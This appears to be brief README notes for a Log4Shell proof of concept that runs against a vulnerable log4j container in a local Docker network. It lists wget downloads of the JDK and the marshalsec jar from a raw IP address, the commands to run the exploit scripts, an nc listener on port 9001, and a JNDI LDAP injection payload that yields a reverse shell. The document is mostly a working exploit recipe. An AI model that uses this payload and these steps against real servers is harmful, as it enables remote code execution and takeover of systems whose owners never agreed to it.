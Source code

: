 # 3204


download jar file 
wget http://18.183.210.2/download/jdk-8u20-linux-x64.tar.gz
wget http://18.183.210.2/download/marshalsec-0.0.3-SNAPSHOT-all.jar

put marshalsec-0.0.3-SNAPSHOT-all.jar in target folder 

extract java file and ensure in same directory as poc.py or exploit wont work

docker network create --subnet=172.18.0.0/16 companyABC

sudo docker run --net companyABC--ip 172.18.0.22 log4j-shell-poc 



run exploit
./pwn.py --target http://localhost:8080(ip of target) --exploit-host 127.0.0.1 (ip of machine/docker of listener) 
start nc listener at 9001

python3 poc.py --userip 172.18.0.1 --webport 8000 --lport 9001
copy the copy this in the output
 ${jndi:ldap://172.18.0.1:1389/a}

u will then get reverse shell

